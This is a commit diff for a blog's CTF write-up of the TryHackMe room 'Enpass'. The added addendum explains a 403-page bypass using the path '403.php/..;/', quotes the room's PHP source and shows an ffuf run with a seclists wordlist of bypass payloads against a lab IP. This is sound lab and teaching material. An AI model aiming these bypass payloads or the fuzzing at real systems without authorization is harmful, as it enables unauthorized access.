

Before and after one commit to 0xordinaryday/blog, a Jekyll site: the page built from hacking/_posts/2021-02-12-enpass.md, in a window 1280 px wide and 1400 px high, scrolled down 551 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update enpass

```diff
--- a/hacking/_posts/2021-02-12-enpass.md
+++ b/hacking/_posts/2021-02-12-enpass.md
@@ -29,3 +29,75 @@ All in all, this seems like the sort of 'gotcha' CTF I despise, with nothing nov
 I will amend this if and only if the challenge turns out to have some interesting parts to it.
 
 Hopefully I'll have something more interesting to write about later.
+
+## Addendum
+Hints and writeups are out so I went for a look. It turns out that you get the username from the 403.php file; I suspected it may have been relevant. By requesting a specific url, you get the page. The url is:
+
+>http://10.10.46.222:8001/403.php/..;/
+
+This isn't some PHP filter bypass, the room creator literally hardcoded it into the source:
+
+{% highlight php %}
+$url_path = urlPath();
+$bypass_url = "http://$host/403.php/..;/" ;
+
+if ( $url_path === $bypass_url){
+    echo "<h3>Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.</h3>";
+}
+{% endhighlight %}
+
+Seems like my judgement about this room was *on point*.
+
+Putting my conspiracy theory hat on for a second, most of the accepted writeups used the same tool from [github](https://github.com/intrudir/403fuzzer) to fuzz the page. Hmmmmmmmmmm.
+
+Anyway, we can see if the string we needed was in seclists:
+
+{% highlight shell %}
+┌──(root💀kali)-[/usr/share/seclists/Fuzzing]
+└─# grep -Fr '..;'
+fuzz-Bo0oM.txt:;/..;/
+fuzz-Bo0oM.txt:..;/..;/
+fuzz-Bo0oM.txt:status/..;/
+fuzz-Bo0oM.txt:..;/x
+fuzz-Bo0oM.txt:login;/..;/admin
+fuzz-Bo0oM.txt:..;/
+User-Agents/software-type-specific/web-browser.txt:Mozilla/5.0 (...; rv:14.0) Gecko/20100101 Firefox/14.0.1
+User-Agents/layout-engine-name/gecko.txt:Mozilla/5.0 (...; rv:14.0) Gecko/20100101 Firefox/14.0.1
+User-Agents/software-name/firefox.txt:Mozilla/5.0 (...; rv:14.0) Gecko/20100101 Firefox/14.0.1
+{% endhighlight %}
+
+So yes, it's in *fuzz-Bo0om.txt*. Let's run *ffuf*. Oh wait, I can't because my Kali VM shat itself and I lost my tools. Fine, let's [install](https://rafaelhart.com/2020/03/installing-golang-on-kali-linux/) it and then run it.
+
+{% highlight shell %}
+──(root💀kali)-[/opt/ffuf]
+└─# git clone https://github.com/ffuf/ffuf ; cd ffuf ; go get ; go build
+# etc
+──(root💀kali)-[/opt/thm/enpass]
+└─# ffuf -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -u http://10.10.46.222:8001/403.php/FUZZ -fs 1123
+
+        /'___\  /'___\           /'___\
+       /\ \__/ /\ \__/  __  __  /\ \__/
+       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
+        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
+         \ \_\   \ \_\  \ \____/  \ \_\
+          \/_/    \/_/   \/___/    \/_/
+
+       v1.3.0-git
+________________________________________________
+
+ :: Method           : GET
+ :: URL              : http://10.10.46.222:8001/403.php/FUZZ
+ :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt
+ :: Follow redirects : false
+ :: Calibration      : false
+ :: Timeout          : 10
+ :: Threads          : 40
+ :: Matcher          : Response status: 200,204,301,302,307,401,403,405
+ :: Filter           : Response size: 1123
+________________________________________________
+
+..;/                    [Status: 200, Size: 917, Words: 168, Lines: 71]
+:: Progress: [4288/4288] :: Job [1/1] :: 124 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
+{% endhighlight %}
+
+I'm not doing this for THM points, so I'm not going to do the root on this one.
```
